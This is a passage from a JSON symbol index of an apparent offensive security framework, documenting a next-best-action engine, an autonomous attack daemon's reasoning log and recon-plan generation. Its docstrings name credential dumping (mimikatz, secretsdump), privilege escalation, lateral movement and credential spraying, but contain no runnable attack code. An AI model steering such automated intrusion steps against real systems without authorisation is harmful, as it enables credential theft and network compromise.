rather than a menu.\n\nAttributes:\n    verb: The command (or copy-paste preview) to run next.\n    confidence: Display confidence in ``[0, 100]`` derived from the fused\n        recommendation score via :func:`confidence_from_score`.\n    reason: One-line English justification, stripped of the ``[source]``\n        provenance tag and truncated for the inline hint line.\n    sources: Names of the signals that agreed on this action.", "kind": "class", "line": 299, "name": "EvidenceHint", "signature": "class EvidenceHint"}, {"doc": "Map an unbounded fused recommendation score to a 0-100 display confidence.\n\n:class:`cli.recommendation.RecommendationEngine` produces scores that are\nunbounded above because multiple agreeing signals add up, so a raw\npercentage would be meaningless. This applies a saturating map\n``100 * s / (s + K)`` where ``K`` (:data:`_CONFIDENCE_HALF_SCORE`) is the\nscore at which confidence reaches 50%. The map is monotonic — more signal\nagreement yields higher confidence — and floors at 99 so the display never\nclaims a dishonest 100%.\n\nArgs:\n    score: The fused recommendation score. Negative values are floored at\n        zero.\n\nReturns:\n    Integer confidence in ``[0, 99]``.", "kind": "function", "line": 321, "name": "confidence_from_score", "signature": "def confidence_from_score(score)"}, {"doc": "Return the primary reason without its ``[source]`` tag, truncated.\n\nArgs:\n    reasons: The ordered provenance lines from a fused recommendation, each\n        shaped ``\"[signal] justification\"`` by the engine accumulator.\n\nReturns:\n    The first justification with any leading ``[signal] `` tag removed and\n    truncated to :data:`_EVIDENCE_REASON_MAX`. Empty when no reason exists.", "kind": "function", "line": 343, "name": "_clean_reason", "signature": "def _clean_reason(reasons)"}, {"doc": "Convert fused recommendations into display-ready evidence hints.\n\nA recommendation without a usable verb or without a justification is\nskipped so the operator never sees a bare, unexplained suggestion — an\nexplained shorter list beats a padded opaque one.\n\nArgs:\n    recommendations: Ranked objects exposing ``action``, ``score``,\n        ``reasons``, ``sources`` and optional ``command_preview`` (a\n        :class:`cli.recommendation.Recommendation` or any duck-typed\n        equivalent), best first.\n    limit: Maximum number of hints to return.\n\nReturns:\n    Up to ``limit`` :class:`EvidenceHint` items preserving input order.", "kind": "function", "line": 362, "name": "build_evidence_hints", "signature": "def build_evidence_hints(recommendations, limit)"}, {"doc": "Print evidence-backed hint lines: verb, confidence, reason, provenance.\n\nThe first hint carries the ``↳`` arrow; the rest are indented to align, so\na glance reads as one ranked block of advice.\n\nArgs:\n    hints: The hints to render, already truncated and ranked.\n\nReturns:\n    None — writes one dim line per hint to stdout.", "kind": "function", "line": 400, "name": "render_evidence_hints", "signature": "def render_evidence_hints(hints)"}, {"doc": "Build evidence-backed hint lines as Rich Text objects.\n\nSame layout as :func:`render_evidence_hints` but returns the lines\ninstead of printing them, so the caller can embed them in a panel\nor other container.\n\nArgs:\n    hints: The hints to render, already truncated and ranked.\n\nReturns:\n    A list of :class:`Text` objects, one per hint.", "kind": "function", "line": 416, "name": "build_evidence_hint_lines", "signature": "def build_evidence_hint_lines(hints)"}, {"doc": "Return the set of command names already executed this session.\n\nReads the CSV transcript and extracts the first token of the first\npopulated column (``tool``, ``command``, or ``name``). Shared by the\ninline hint renderer, the tips engine, and any other surface that must\nfilter already-run commands out of its suggestions.\n\nArgs:\n    sessions_dir: Directory containing ``LazyOwn_session_report.csv``.\n\nReturns:\n    A set of command verbs, empty when the transcript is missing or\n    unreadable.", "kind": "function", "line": 443, "name": "read_run_commands", "signature": "def read_run_commands(sessions_dir)"}, {"doc": "Collect forward-looking hint verbs from adjacency then phase priority.\n\nKill-chain adjacency (``_KILL_CHAIN_NEXT``) feeds the list first; when it\nfalls short of ``limit`` the phase-priority table fills the remainder.\nCommands already executed this session and the predecessor itself are\nexcluded so the hint always looks forward.\n\nArgs:\n    cmd: The command that just ran. Empty disables the adjacency lookup\n        and collects phase priority only.\n    phase: Current engagement phase identifier.\n    already_run: Set of verbs already present in the transcript.\n    limit: Maximum number of verbs to return.\n\nReturns:\n    Ordered candidate verbs, length at most ``limit``.", "kind": "function", "line": 476, "name": "_collect_command_hints", "signature": "def _collect_command_hints(cmd, phase, already_run, limit)"}, {"doc": "Print phase-aware, history-filtered command hints after each step.\n\nUses kill-chain adjacency (``_KILL_CHAIN_NEXT``) first, then falls back\nto phase priority (``_PHASE_PRIORITY``).  Commands already in the session\nCSV are skipped so the hint is always forward-looking.\n\nArgs:\n    last_command: The command that just ran (first token used).\n    phase:        Current engagement phase (from payload.json / world_model).\n    sessions_dir: Path to sessions/ directory.\n    limit:        Maximum labels to display.\n    enabled:      When False this is a no-op.\n\nReturns:\n    None — prints at most one dim line.", "kind": "function", "line": 514, "name": "render_command_hints", "signature": "def render_command_hints(last_command, phase, sessions_dir, limit, enabled)"}, {"doc": "Return the top next-step command verbs without printing them.\n\nMirrors the logic of :func:`render_command_hints` but separates the\nsuggestion engine from the I/O side effect so other UI surfaces (the\npersistent status bar in :mod:`cli.status_bar`, future TUI widgets)\ncan consume the exact same data the inline hints use.\n\nArgs:\n    last_command: Raw command string that most recently executed.\n        Only the first token is considered. When empty or in\n        :data:`SKIP_COMMANDS` the adjacency lookup is skipped and the\n        phase priority table feeds the result.\n    phase: Current engagement phase identifier. Falls back to\n        ``recon`` when empty.\n    sessions_dir: Path to ``sessions/`` used to filter out commands\n        that already appear in the CSV transcript.\n    limit: Maximum number of verbs to return.\n\nReturns:\n    Ordered list of suggested command verbs, length ``<= limit``.\n    Returns an empty list when no candidates remain after filtering.", "kind": "function", "line": 549, "name": "command_hints", "signature": "def command_hints(last_command, phase, sessions_dir, limit)"}]}, {"doc": "Operator-facing view over the autonomous daemon decision log.  The autonomous daemon (``skills/autonomous_daemon.py``) appends structured events to ``sessions/autonomous_events.jsonl`` through its ``_emit`` helper. Every event is a JSON object with the shape::  {\"id\": \"...\", \"ts\": \"<iso8601>\", \"type\": \"STEP_START\", \"severity\": \"info\", \"payload\": {...}}  This module turns that raw stream into a compact, human-readable sequence of :class:`ReasoningEntry` records so the dashboard can render *what the daemon is thinking* in real time: the command it chose, the phase, the selector that produced the decision, the rationale and the reinforcement-learning reward.  The module performs no rendering and imports nothing from ``lazyown.py`` or ``lazyc2.py``; it only reads the JSONL log. This keeps it unit-testable and reusable by the Textual dashboard, the web dashboard or any other consumer.", "id": "cli/reasoning_stream.py", "kind": "module", "label": "reasoning_stream.py", "language": "py", "sha256": "1fe08394b7082f00", "symbol_count": 10, "symbols": [{"doc": "One human-readable line in the daemon reasoning stream.\n\nAttributes:\n    ts: Wall-clock ``HH:MM:SS`` slice of the event timestamp.\n    kind: Canonical event type as emitted by the daemon.\n    icon: Single-glyph marker used by the renderer.\n    style: Rich style string for the marker and command.\n    phase: Kill-chain phase the event belongs to, empty if unknown.\n    command: Command associated with the event, empty if not applicable.\n    summary: Compact rationale or outcome description.\n    reward: Reinforcement-learning reward for the step, ``None`` when the\n        event carries no reward signal.", "kind": "class", "line": 66, "name": "ReasoningEntry", "signature": "class ReasoningEntry"}, {"doc": "Return the last ``limit`` well-formed events from the JSONL log.\n\nMalformed lines are skipped silently so a single corrupt write never\nbreaks the dashboard. The newest event is last in the returned list.\n\nArgs:\n    path: Path to the autonomous events JSONL file.\n    limit: Maximum number of events to return from the tail.\n\nReturns:\n    A list of decoded event dictionaries, oldest first.", "kind": "function", "line": 91, "name": "read_raw_events", "signature": "def read_raw_events(path, limit)"}, {"doc": "Extract an ``HH:MM:SS`` slice from an ISO-8601 timestamp.", "kind": "function", "line": 127, "name": "_format_time", "signature": "def _format_time(ts)"}, {"doc": "Render a byte count as ``B`` or ``KB`` without external deps.", "kind": "function", "line": 134, "name": "_format_size", "signature": "def _format_size(num_bytes)"}, {"doc": "Trim ``text`` to ``limit`` characters with an ellipsis marker.", "kind": "function", "line": 141, "name": "_truncate", "signature": "def _truncate(text, limit)"}, {"doc": "Build a compact rationale string for an event payload.", "kind": "function", "line": 148, "name": "_summarize", "signature": "def _summarize(kind, payload)"}, {"doc": "Return the step reward when present, else ``None``.", "kind": "function", "line": 175, "name": "_extract_reward", "signature": "def _extract_reward(payload)"}, {"doc": "Convert a raw daemon event into a :class:`ReasoningEntry`.\n\nArgs:\n    event: A decoded event dictionary from the JSONL log.\n\nReturns:\n    A populated :class:`ReasoningEntry`. Unknown event types fall back to\n    a neutral marker so the stream never drops information.", "kind": "function", "line": 183, "name": "event_to_entry", "signature": "def event_to_entry(event)"}, {"doc": "Return the most recent daemon decisions as reasoning entries.\n\nArgs:\n    path: Path to the autonomous events JSONL file.\n    limit: Maximum number of entries to return, newest last.\n\nReturns:\n    A list of :class:`ReasoningEntry`, oldest first.", "kind": "function", "line": 216, "name": "latest_reasoning", "signature": "def latest_reasoning(path, limit)"}, {"doc": "Return the newest human-readable reasoning line for spinners.\n\nReads the tail of the autonomous events log and renders the most\nrecent entry as ``icon kind — summary``. Returns an empty string\nwhen the log is missing or unreadable so spinners fall back to a\ngeneric waiting message instead of failing.", "kind": "function", "line": 229, "name": "latest_hint", "signature": "def latest_hint(events_path)"}]}, {"doc": "Unified next-best-action engine: the single source of truth for \"what next\".  Before this module the framework carried four independent \"what should I run next\" brains that never spoke to each other:  * the graphify proximity walk (:meth:`cli.graph_advisor.GraphAdvisor.suggest_next`), * the learned transition policy (:class:`skills.lazyown_policy.LazyOwnPolicyIntegration`), * the nmap trigger-matched recon plan (:func:`cli.recon_plan.build_recon_plan`), * the static kill-chain adjacency tables in :mod:`cli.reactive_hints`.  Each surface (the ``recommend_next`` CLI verb, the inline push hints, the MCP tool) wired a different subset by hand, so the operator saw three unmerged lists and had to synthesise them mentally. This module collapses them into one logical chain of thought.  The fusion model has two tiers, mirroring the natural granularity of the inputs:  * **Concrete-action signals** (graph, recon plan, kill-chain) propose individual commands / addons / tools, each with a signal-local weight. * **Category-prior signals** (policy) propose kill-chain *categories* with a confidence. These do not name a command; instead they up- or down-weight every concrete action that belongs to the category.  :class:`RecommendationEngine` normalises every signal, multiplies each concrete action by its category prior, merges duplicates across signals (carrying the full provenance), and returns a single ranked list of :class:`Recommendation`.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py`` (Dependency Inversion): consumers depend on this module, never the reverse.", "id": "cli/recommendation.py", "kind": "module", "label": "recommendation.py", "language": "py", "sha256": "1212a589cf3a8e4c", "symbol_count": 22, "symbols": [{"doc": "Immutable fusion parameters shared by every recommendation run.\n\nAttributes:\n    signal_weights: Global multiplier per concrete-action signal. The recon\n        plan ranks highest because it is grounded in a real scan of the\n        target; the graph walk and the static kill-chain tables are advisory.\n    category_prior_floor: Lowest multiplier a concrete action can receive\n        from a cold policy category. Never zero, so a single signal can still\n        surface an action the policy has not yet learned to favour.\n    category_prior_span: Width added on top of the floor for a maximally\n        confident policy category. ``floor + span`` is the hottest prior.\n    neutral_prior: Multiplier applied to actions whose category carries no\n        policy signal at all.\n    category_recommendation_weight: Score assigned to a standalone strategic\n        category recommendation so it ranks below concrete actions of similar\n        confidence while remaining visible.", "kind": "class", "line": 67, "name": "EngineWeights", "signature": "class EngineWeights"}, {"doc": "Everything a signal needs to produce proposals for one decision.\n\nAttributes:\n    target: Active rhost (or ``None`` to let scan-backed signals fall back to\n        the most recent artefact in ``sessions/``).\n    payload: ``payload.json`` mapping; signals read phase, creds and OS hints.\n    recent_commands: Ordered command verbs already executed this session,\n        most recent last. Seeds the graph walk and the kill-chain adjacency.\n    phase: Resolved kill-chain phase, used by the recon plan and as a\n        category fallback.\n    limit: Maximum number of fused recommendations the caller wants.", "kind": "class", "line": 101, "name": "RecommendationContext", "signature": "class RecommendationContext"}, {"doc": "A single raw suggestion emitted by one signal, before fusion.\n\nAttributes:\n    action: Command / addon / tool identifier, or a category name when\n        ``kind`` is :data:`KIND_CATEGORY`.\n    kind: One of the ``KIND_*`` constants.\n    weight: Signal-local importance in ``[0, 1]``. Normalised against the\n        signal's own maximum before the global weight is applied.\n    reason: One-line English justification shown to the operator.\n    category: Kill-chain category the action belongs to, when the signal\n        already knows it. Empty lets the engine resolve it from the command\n        index.\n    command_preview: Best-effort copy-paste command string, when available.\n    mitre: Optional MITRE ATT&CK technique id.", "kind": "class", "line": 123, "name": "Proposal", "signature": "class Proposal"}, {"doc": "A fused, ranked next action with full provenance.\n\nAttributes:\n    action: The suggested command / addon / tool / category.\n    kind: One of the ``KIND_*`` constants.\n    score: Fused score after normalisation, global weighting and category\n        priors. Higher is better; values are not bounded to ``[0, 1]`` once\n        multiple signals reinforce the same action.\n    category: Resolved kill-chain category, or empty when unknown.\n    sources: Names of every signal that contributed, in registration order.\n    reasons: One provenance line per contributing signal.\n    command_preview: Copy-paste command when any signal supplied one.\n    mitre: MITRE technique id when any signal supplied one.", "kind": "class", "line": 150, "name": "Recommendation", "signature": "class Recommendation"}, {"doc": "Contract every recommendation brain must satisfy to join the chain.\n\nImplementations must be side-effect free beyond reading their own backend and\nmust never raise out of :meth:`propose`; an unavailable backend returns an\nempty list so the engine degrades gracefully.", "kind": "class", "line": 177, "name": "RecommendationSignal", "signature": "class RecommendationSignal(Protocol)"}, {"doc": "Map a concrete command to its kill-chain category.\n\nThe lookup is built once from ``cli/command_index.json`` (its\n``category_to_commands`` / ``phase_to_commands`` sections) and consulted by\nthe engine to decide which policy prior applies to each concrete action. The\nloader is injected so tests run without touching the real index.", "kind": "class", "line": 192, "name": "CategoryResolver", "signature": "class CategoryResolver"}, {"doc": "Fuse every registered signal into one ranked recommendation list.\n\nThe engine holds no per-call state; :meth:`recommend` is pure with respect to\nthe injected signals and resolver, which is what lets the CLI verb, the push\nhints and the MCP tool share a single instance without coupling.", "kind": "class", "line": 232, "name": "RecommendationEngine", "signature": "class RecommendationEngine"}, {"doc": "Mutable fusion slot collecting every contribution to one action.", "kind": "class", "line": 362, "name": "_Accumulator", "signature": "class _Accumulator"}, {"doc": "Clamp ``value`` into the closed unit interval.\n\nUsed for probability-like inputs such as a policy category confidence.", "kind": "function", "line": 400, "name": "_clamp01", "signature": "def _clamp01(value)"}, {"doc": "Floor ``value`` at zero, preserving its scale for peak normalisation.\n\nConcrete-action signals (the graph walk in particular) emit unbounded\npositive importances; clamping them to one before normalisation would\ncollapse their relative ranking, so only the negative tail is removed.", "kind": "function", "line": 412, "name": "_non_negative", "signature": "def _non_negative(value)"}, {"doc": "Read ``command_index.json`` with stdlib only, returning ``None`` on error.", "kind": "function", "line": 422, "name": "_load_command_index", "signature": "def _load_command_index(path)"}, {"doc": "Return zero or more :class:`Proposal` objects for ``ctx``.", "kind": "method", "line": 187, "name": "propose", "signature": "def propose(self, ctx)"}, {"doc": "Build the resolver from the command index.\n\nArgs:\n    index_path: Path to ``command_index.json``.\n    loader: Injected reader returning the parsed index or ``None``.", "kind": "method", "line": 201, "name": "__init__", "signature": "def __init__(self, index_path, loader)"}, {"doc": "Return the kill-chain category for ``action`` or an empty string.", "kind": "method", "line": 227, "name": "category_for", "signature": "def category_for(self, action)"}, {"doc": "Wire the engine with its signals and fusion parameters.\n\nArgs:\n    signals: Concrete-action and category-prior signals to fuse.\n    resolver: Command-to-category resolver. Built from the default index\n        when omitted.\n    weights: Fusion parameters. Defaults to :class:`EngineWeights`.", "kind": "method", "line": 240, "name": "__init__", "signature": "def __init__(self, signals, resolver, weights)"}, {"doc": "Return the fused, ranked recommendations for ``ctx``.\n\nArgs:\n    ctx: The decision context shared with every signal.\n\nReturns:\n    Up to ``ctx.limit`` :class:`Recommendation` objects, ordered by fused\n    score descending and action name ascending for determinism.", "kind": "method", "line": 258, "name": "recommend", "signature": "def recommend(self, ctx)"}, {"doc": "Call ``signal.propose`` swallowing any failure into an empty list.", "kind": "method", "line": 280, "name": "_safe_propose", "signature": "def _safe_propose(signal, ctx)"}, {"doc": "Translate policy category proposals into per-category multipliers.", "kind": "method", "line": 287, "name": "_build_category_priors", "signature": "def _build_category_priors(self, collected)"}, {"doc": "Merge concrete proposals across signals into ranked recommendations.", "kind": "method", "line": 302, "name": "_fuse_concrete_actions", "signature": "def _fuse_concrete_actions(self, collected, priors)"}, {"doc": "Surface strategic categories that no concrete action already covers.", "kind": "method", "line": 331, "name": "_category_recommendations", "signature": "def _category_recommendations(self, collected, concrete)"}, {"doc": "Fold one signal's proposal into the running total.", "kind": "method", "line": 374, "name": "add", "signature": "def add(self, source, contribution, proposal)"}, {"doc": "Freeze the slot into an immutable :class:`Recommendation`.", "kind": "method", "line": 386, "name": "build", "signature": "def build(self)"}]}, {"doc": "Concrete :class:`cli.recommendation.RecommendationSignal` adapters.  Each adapter wraps one of the framework's pre-existing \"what next\" brains and translates its native output into the common :class:`cli.recommendation.Proposal` currency so :class:`cli.recommendation.RecommendationEngine` can fuse them. The heavy backends (the graphify index, the policy store, the nmap reader) are imported lazily inside each adapter, which keeps the core engine module free of optional third-party dependencies and lets a missing backend degrade to an empty proposal list instead of an import error.  The :func:`build_default_engine` factory wires the four deterministic signals in priority order and is the single entry point every consumer (the ``recommend_next`` CLI verb, the inline push hints, the MCP tool) should call.", "id": "cli/recommendation_signals.py", "kind": "module", "label": "recommendation_signals.py", "language": "py", "sha256": "4b9f31ff9174e875", "symbol_count": 37, "symbols": [{"doc": "Read ``world_model.json`` from ``sessions_dir``, or ``None``.\n\nShared by every signal that inspects world-model state. Returns\n``None`` when the file is missing or malformed so signals degrade to\nan empty proposal list instead of raising.\n\nArgs:\n    sessions_dir: Directory containing ``world_model.json``.\n\nReturns:\n    The parsed mapping, or ``None`` when unavailable.", "kind": "function", "line": 67, "name": "_load_world_model", "signature": "def _load_world_model(sessions_dir)"}, {"doc": "Map a zero-based rank to a descending weight in ``(_RANK_FLOOR, 1]``.\n\nSignals whose backend emits an ordered list without numeric scores (the\nrecon plan, the static kill-chain tables) use this so a stable, position-based\nimportance feeds the engine's per-signal normalisation.\n\nArgs:\n    index: Zero-based position in the ordered list.\n    total: Length of the ordered list.\n\nReturns:\n    ``1.0`` for the first item, decaying linearly to ``_RANK_FLOOR``.", "kind": "function", "line": 90, "name": "_rank_weight", "signature": "def _rank_weight(index, total)"}, {"doc": "Adapt :meth:`cli.graph_advisor.GraphAdvisor.suggest_next` into proposals.", "kind": "class", "line": 110, "name": "GraphSignal", "signature": "class GraphSignal"}, {"doc": "Adapt the learned transition policy into kill-chain category priors.", "kind": "class", "line": 148, "name": "PolicySignal", "signature": "class PolicySignal"}, {"doc": "Adapt the nmap trigger-matched recon plan into concrete proposals.", "kind": "class", "line": 185, "name": "ReconPlanSignal", "signature": "class ReconPlanSignal"}, {"doc": "Adapt the static kill-chain adjacency tables into concrete proposals.", "kind": "class", "line": 224, "name": "KillChainSignal", "signature": "class KillChainSignal"}, {"doc": "Return the last ``window`` command verbs from the session transcript.\n\nArgs:\n    sessions_dir: Path to the ``sessions/`` directory.\n    window: Maximum number of trailing verbs to return.\n\nReturns:\n    Ordered command verbs, most recent last. Empty when the transcript is\n    absent or unreadable.", "kind": "function", "line": 275, "name": "read_recent_commands", "signature": "def read_recent_commands(sessions_dir, window)"}, {"doc": "Assemble a :class:`RecommendationContext` from live engagement state.\n\nArgs:\n    payload: ``payload.json`` mapping.\n    sessions_dir: Path to ``sessions/`` for transcript reads.\n    target: Explicit target. Falls back to ``payload['rhost']``.\n    limit: Maximum recommendations the caller wants.\n\nReturns:\n    A populated context shared by every signal.", "kind": "function", "line": 308, "name": "build_context", "signature": "def build_context(payload, sessions_dir, target, limit)"}, {"doc": "Adapt APT playbook suggestions into concrete proposals.\n\nWhen nmap services match a known playbook profile (APT group, attack\nsurface pattern), this signal suggests relevant playbook commands.", "kind": "class", "line": 337, "name": "PlaybookSignal", "signature": "class PlaybookSignal"}, {"doc": "Detect missing steps in the kill chain from world model and session state.\n\nInspects ``sessions/world_model.json`` host states and session artefacts\nto identify gaps where the operator has not progressed. Each detected gap\nproduces a high-confidence :class:`Proposal` for the most impactful next\naction.\n\nGap detection rules (ordered by priority):\n    - Host in EXPLOITED state without privesc output: recommend\n      linpeas/winpeas.\n    - Host in OWNED state without credential dump: recommend\n      mimikatz/secretsdump/lazydump.\n    - Scan XML exists but no enumeration: recommend gobuster/ffuf/enum4linux.\n    - Credentials exist but no lateral movement: recommend\n      crackmapexec/psexec.", "kind": "class", "line": 386, "name": "KillchainGapSignal", "signature": "class KillchainGapSignal"}, {"doc": "Adapt WorldModel network graph pivot_candidates into lateral movement proposals.\n\nReads the degree-centrality pivot candidates computed by the WorldModel's\nNetworkGraph and emits high-confidence proposals for lateral movement,\ncredential spraying, and network topology exploration — data that was\npreviously computed but never consumed by the recommendation engine.", "kind": "class", "line": 531, "name": "GraphTopologySignal", "signature": "class GraphTopologySignal"}, {"doc": "Build a :class:`PlaybookSignal` when the APT playbook engine imports.", "kind": "function", "line": 638, "name": "_try_build_playbook_signal", "signature": "def _try_build_playbook_signal()"}, {"doc": "Wire every available deterministic signal into one engine.\n\nSignals whose backend cannot be imported or constructed are skipped silently\nso the returned engine always works with whatever is present. The kill-chain\nsignal is unconditional because its tables ship with the framework.\n\nArgs:\n    payload: ``payload.json`` mapping used to resolve the victim OS for the\n        recon-plan signal.\n    sessions_dir: Path to ``sessions/`` (currently informational; the\n        collaborators resolve their own paths).\n    graph_path: Optional explicit graphify graph path.\n    command_index_path: Path to ``command_index.json`` for category priors.\n    weights: Optional fusion-weight override.\n\nReturns:\n    A ready :class:`RecommendationEngine`.", "kind": "function", "line": 649, "name": "build_default_engine", "signature": "def build_default_engine(payload, sessions_dir, graph_path, command_index_path, weights)"}, {"doc": "Return fused, ranked recommendations carrying reason and score for display.\n\nThin convenience over :func:`build_default_engine` and :func:`build_context`\nfor the evidence-backed inline hints. An already-built ``engine`` may be\ninjected so a caller on a hot path (the post-command hook) constructs the\nengine once and reuses it across commands instead of rebuilding every step.\n\nArgs:\n    payload: ``payload.json`` mapping used to resolve OS and target.\n    sessions_dir: Path to ``sessions/`` for transcript and world-model reads.\n    target: Explicit target; falls back to ``payload['rhost']``.\n    phase: Caller-resolved kill-chain phase. When non-empty it overrides the\n        phase :func:`build_context` derives from the payload, letting the\n        hint reuse the shell's authoritative :class:`modules.killchain.KillChain`\n        resolution.\n    limit: Maximum number of recommendations to return.\n    engine: Optional pre-built engine to reuse.\n\nReturns:\n    Up to ``limit`` :class:`cli.recommendation.Recommendation` objects,\n    best first. Empty when no signal produces a proposal.", "kind": "function", "line": 705, "name": "recommend_with_evidence", "signature": "def recommend_with_evidence(payload, sessions_dir, target, phase, limit, engine)"}, {"doc": "Build a :class:`GraphSignal` when the graphify index is loadable.", "kind": "function", "line": 742, "name": "_try_build_graph_signal", "signature": "def _try_build_graph_signal(graph_path)"}, {"doc": "Build a :class:`PolicySignal` when the policy engine imports cleanly.", "kind": "function", "line": 756, "name": "_try_build_policy_signal", "signature": "def _try_build_policy_signal()"}, {"doc": "Build a :class:`ReconPlanSignal` when the exploration stack imports.", "kind": "function", "line": 772, "name": "_try_build_recon_signal", "signature": "def _try_build_recon_signal(payload)"}, {"doc": "Build the unconditional static-table :class:`KillChainSignal`.", "kind": "function", "line": 785, "name": "_build_killchain_signal", "signature": "def _build_killchain_signal()"}, {"doc": "Store the graph advisor facade.\n\nArgs:\n    advisor: Any object exposing ``suggest_next(recent_commands, limit)``\n        and returning summary dicts carrying ``label``/``id`` and\n        ``score`` keys.", "kind": "method", "line": 115, "name": "__init__", "signature": "def __init__(self, advisor)"}, {"doc": "Return graph-adjacent command proposals for ``ctx``.", "kind": "method", "line": 125, "name": "propose", "signature": "def propose(self, ctx)"}, {"doc": "Store the policy integration facade.\n\nArgs:\n    policy: Object exposing ``get_recommendations(target)`` returning\n        dicts with ``category``, ``confidence`` and ``reason`` keys.", "kind": "method", "line": 153, "name": "__init__", "signature": "def __init__(self, policy)"}, {"doc": "Return category-prior proposals for ``ctx``.", "kind": "method", "line": 162, "name": "propose", "signature": "def propose(self, ctx)"}, {"doc": "Store the exploration engine and the plan builder callable.\n\nArgs:\n    engine: A configured ``cli.exploration.ExplorationEngine``.\n    builder: The ``cli.recon_plan.build_recon_plan`` callable.", "kind": "method", "line": 190, "name": "__init__", "signature": "def __init__(self, engine, builder)"}, {"doc": "Return trigger-matched addon/tool/command proposals for ``ctx``.", "kind": "method", "line": 200, "name": "propose", "signature": "def propose(self, ctx)"}, {"doc": "Store the adjacency and phase-priority tables.\n\nArgs:\n    next_table: Map of command verb to its sensible follow-ups.\n    phase_table: Map of kill-chain phase to its priority verbs.", "kind": "method", "line": 229, "name": "__init__", "signature": "def __init__(self, next_table, phase_table)"}, {"doc": "Return adjacency- and phase-derived proposals for ``ctx``.", "kind": "method", "line": 243, "name": "propose", "signature": "def propose(self, ctx)"}, {"doc": "Store an optional playbook engine facade.\n\nArgs:\n    playbook_engine: Object exposing ``list_playbooks()`` returning\n        a list of playbook summary dicts.", "kind": "method", "line": 346, "name": "__init__", "signature": "def __init__(self, playbook_engine)"}, {"doc": "Return playbook-based proposals for the current context.", "kind": "method", "line": 355, "name": "propose", "signature": "def propose(self, ctx)"}, {"kind": "method", "line": 406, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"doc": "Return gap-detection proposals for ``ctx``.", "kind": "method", "line": 409, "name": "propose", "signature": "def propose(self, ctx)"}, {"kind": "method", "line": 425, "name": "_gap_exploited_no_privesc", "signature": "def _gap_exploited_no_privesc(self, hosts)"}, {"kind": "method", "line": 465, "name": "_gap_owned_no_creds", "signature": "def _gap_owned_no_creds(self, hosts, wm_data)"}, {"kind": "method", "line": 485, "name": "_gap_scan_no_enum", "signature": "def _gap_scan_no_enum(self, hosts, recent)"}, {"kind": "method", "line": 507, "name": "_gap_creds_no_lateral", "signature": "def _gap_creds_no_lateral(self, wm_data, hosts)"}, {"kind": "method", "line": 542, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"doc": "Return lateral movement and topology proposals from network graph.", "kind": "method", "line": 545, "name": "propose", "signature": "def propose(self, ctx)"}, {"kind": "method", "line": 603, "name": "_compute_centrality", "signature": "def _compute_centrality(graph_data)"}]}, {"doc": "Reconnaissance plan generator built on top of :mod:`cli.exploration`.  After ``do_lazynmap`` finishes scanning a target the operator is left with a raw XML in ``sessions/`` and no immediate guidance about which addon, ``.tool`` or CLI verb to invoke next. This module bridges that gap by composing the trigger-matched outputs already produced by :class:`cli.exploration.ExplorationEngine` (addons + tools) with the phase-aware ``cli/command_index.json`` into a single, persisted plan.  The module is pure: it does no shell I/O, holds no global state and never imports ``cmd2``, ``rich`` or ``lazyown.py``. The CLI integration lives in ``do_lazynmap`` / ``do_recommend_next`` which call :func:`build_recon_plan`, then optionally pipe the result through :func:`render_markdown` (operator + LLM consumption) or :func:`render_rich` (terminal preview).  Design constraints honoured:  * Single Responsibility: every helper does exactly one thing. * Open / Closed: new item kinds extend :class:`ReconPlanItem` without touching the renderer. * Liskov / Interface Segregation: the engine collaborator only needs to satisfy the ``unexplored_addons`` / ``unexplored_tools`` / ``services`` / ``history`` contract already provided by :class:`cli.exploration.ExplorationEngine`. * Dependency Inversion: file I/O, command-index loading and time are all injected so the suite never touches the real ``sessions/`` tree. * No magic numbers / hardcoded paths: every default lives in :class:`ReconPlanConfig`. * Sessions ``write_plan`` is atomic (``*.tmp`` then ``os.replace``) with", "id": "cli/recon_plan.py", "kind": "module", "label": "recon_plan.py", "language": "py", "sha256": "915a765226866fc6", "symbol_count": 18, "symbols": [{"doc": "Immutable defaults for plan generation, rendering and persistence.", "kind": "class", "line": 62, "name": "ReconPlanConfig", "signature": "class ReconPlanConfig"}, {"doc": "One actionable suggestion in a :class:`ReconPlan`.\n\nAttributes:\n    kind: One of ``addon``, ``tool``, ``command``, ``note``.\n    name: Identifier of the addon, tool or CLI verb.\n    service: ``service:port/proto`` label that triggered the item, or\n        an empty string for phase-priority command suggestions.\n    trigger_match: Comma-separated trigger keywords that matched.\n    command_preview: Best-effort copy-paste command shown to the\n        operator. Empty when the item is a CLI verb the operator\n        invokes directly.\n    reason: One-line justification (English, no emoji) explaining\n        why the item is in the plan.", "kind": "class", "line": 94, "name": "ReconPlanItem", "signature": "class ReconPlanItem"}, {"doc": "Snapshot of a target's next-step plan.\n\nAttributes:\n    target: Host or hostname the plan was built for.\n    platform: Resolved victim OS used to filter items.\n    phase: Kill-chain phase the command suggestions came from.\n    services: Discovered services that fed the trigger matching.\n    items: Ordered actionable suggestions.\n    generated_at: Epoch seconds when the plan was assembled.", "kind": "class", "line": 119, "name": "ReconPlan", "signature": "class ReconPlan"}, {"doc": "Assemble a :class:`ReconPlan` for ``target`` using ``engine``.\n\nArgs:\n    target: Host the plan is for. ``None`` lets the engine fall back\n        to the most recent scan in ``sessions/``.\n    engine: An :class:`ExplorationEngine` already configured with the\n        current victim OS.\n    payload: Optional ``payload.json`` mapping. Used to resolve the\n        active phase and substitute ``{ip}`` / ``{domain}`` /\n        ``{username}`` / ``{password}`` placeholders in the\n        previewed commands.\n    config: Optional :class:`ReconPlanConfig` override.\n    command_index_loader: Injected loader for ``cli/command_index.json``.\n        Defaults to a stdlib-only reader. Returning ``None`` skips\n        the command-suggestions layer cleanly.\n    clock: Zero-arg callable returning the current epoch seconds.\n        Defaults to :func:`time.time`.\n\nReturns:\n    A populated :class:`ReconPlan`. The result is empty (``is_empty``\n    true) when no nmap scan has been performed yet.", "kind": "function", "line": 144, "name": "build_recon_plan", "signature": "def build_recon_plan(target, engine, payload, config, command_index_loader, clock)"}, {"doc": "Render ``plan`` as a Markdown document suitable for sessions/.\n\nThe output is intentionally small (no embedded HTML, no nested\nformatting) so both the operator and downstream LLM agents can parse\nit deterministically.", "kind": "function", "line": 207, "name": "render_markdown", "signature": "def render_markdown(plan)"}, {"doc": "Persist ``plan`` to ``sessions/recon_plan_<target>.md`` atomically.\n\nArgs:\n    plan: Plan to persist.\n    sessions_dir: Override for the sessions directory. Defaults to\n        ``config.sessions_dir`` resolved against the current working\n        directory.\n    config: Optional :class:`ReconPlanConfig` override.\n\nReturns:\n    The absolute :class:`Path` of the written plan file.", "kind": "function", 